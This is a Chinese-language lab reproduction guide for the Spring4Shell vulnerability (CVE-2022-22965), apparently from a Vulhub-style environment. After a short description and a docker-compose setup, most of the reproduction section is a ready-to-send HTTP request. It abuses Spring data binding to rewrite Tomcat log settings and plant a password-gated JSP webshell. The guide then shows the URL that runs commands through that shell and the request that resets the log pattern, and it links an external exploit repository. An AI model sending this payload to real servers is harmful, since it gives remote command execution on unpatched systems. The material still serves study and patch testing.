 # Spring Data Binding 与 JDK 9+ 导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在 JDK 9+ 上运行的 Spring MVC 或 Spring WebFlux 应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以 WAR 部署的形式在 Tomcat 上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub 执行如下命令启动一个 Spring WebMVC 5.3.17 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080/?name=Bob&age=25` 即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的 Tomcat 日志路径与后缀，利用这个方法写入一个 JSP 文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![image-20220412215932241](images/image-20220412215932241.png)

然后，访问刚写入的 JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20220412220112693](images/image-20220412220112693.png)

注意，需要在利用完成后将 `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 清空，否则每次请求都会写入新的恶意代码在 JSP Webshell 中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞 POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
